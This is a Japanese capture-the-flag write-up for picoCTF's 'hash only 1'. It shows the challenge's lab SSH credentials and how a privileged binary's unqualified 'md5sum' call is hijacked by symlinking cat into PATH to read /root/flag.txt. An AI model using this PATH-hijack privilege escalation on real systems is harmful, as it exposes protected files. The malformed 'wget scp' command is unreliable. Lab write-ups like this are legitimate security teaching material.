

## hash only 1
### 問題文

Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. If only it could just give you the actual content!
Connect using `ssh ctf-player@shape-facility.picoctf.net -p 64209` with the password, `a15d25e1` and run the binary named `flaghasher`.
You can get a copy of the binary if you wish: `scp -P 64209 ctf-player@shape-facility.picoctf.net:~/flaghasher .`

---

まずは、インスタンスを起動する。  
次に、シェル上で`ssh ctf-player@shape-facility.picoctf.net -p 64209`を実行して、サーバーにアクセス  

サーバーにアクセスすると、パスワードの入力を求められるので、問題文のパスワードを入力する。  
サーバーにアクセスできたので、早速バイナリファイルを実行する。

```
$ ./flaghasher
```



どうやらmd5アルゴリズムを使用してハッシュ化しているようだ。  
サーバー上には、gdbなどが入っていなかったので、ファイルをローカルに落として、Ghidraでリバースエンジニアリングする。  

```
$ wget scp -P 64209 ctf-player@shape-facility.picoctf.net:~/flaghasher .
```

で、Ghidraにファイルを読み込ませる。  
こちらのサイトで、Ghidraを用いたデコンパイルが行えます。  
https://dogbolt.org/  


すると怪しい一文があった。  
md5sumは、UNIX/Linux環境でファイルやデータのMD5ハッシュ値を計算するためのものなので、ここがハッシュ化をしている場所だ。
```
  std::string::string(local_48,"/bin/bash -c \'md5sum /root/flag.txt\'",&local_4d);
```

lnコマンドを使用して、md5sumの呼び出しをcatに変えることができれば、Flagをゲットできそう。

```
ln -s /usr/bin/cat md5sum
export PATH=".:$PATH"
```

書き換え完了

実行をして
```
./flaghasher 
```

Flagがゲットできた。